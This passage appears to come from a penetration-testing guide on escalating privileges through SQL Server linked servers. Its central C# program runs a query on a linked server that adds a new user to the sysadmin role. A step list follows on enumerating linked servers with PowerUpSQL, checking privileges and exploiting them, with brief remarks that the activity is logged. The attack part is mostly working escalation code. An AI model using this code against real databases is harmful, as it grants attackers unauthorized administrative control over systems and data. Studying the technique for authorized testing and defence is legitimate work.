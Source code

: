 ```csharp
    }
}
```

#### 2. **Execute Commands on the Linked Server Using C#**
   - If you identify a vulnerable linked server, you can execute commands on it.

```csharp
using System;
using System.Data.SqlClient;

class Program
{
    static void Main()
    {
        string connectionString = "Server=ServerName\\InstanceName;Database=master;User Id=your_username;Password=your_password;";

        using (SqlConnection connection = new SqlConnection(connectionString))
        {
            connection.Open();
            string query = "EXEC ('EXEC sp_addsrvrolemember ''MyNewUser'', ''sysadmin'';') AT LinkedServerName;";

            using (SqlCommand command = new SqlCommand(query, connection))
            {
                command.ExecuteNonQuery();
                Console.WriteLine("Executed query on linked server");
            }
        }
    }
}
```

### Summary of the Steps

1. **Enumerate Linked Servers**: Use PowerUpSQL or custom C# code to list all the linked servers configured on the target SQL Server instance.

2. **Check Privileges**: Use PowerUpSQL to check if you can execute queries on the linked servers with a higher privilege level.

3. **Exploit the Linked Server**: If the linked server allows query execution, use PowerUpSQL or C# code to execute commands that can elevate your privileges, such as adding a new sysadmin user.

### Considerations

- **Linked Server Authentication**: Be aware of how the linked server is configured. It might be set to use the credentials of the connected user or a fixed set of credentials, which could give you elevated privileges.

- **Audit Logs**: These activities are likely to be logged, so ensure that you have appropriate measures in place if you are performing penetration testing.
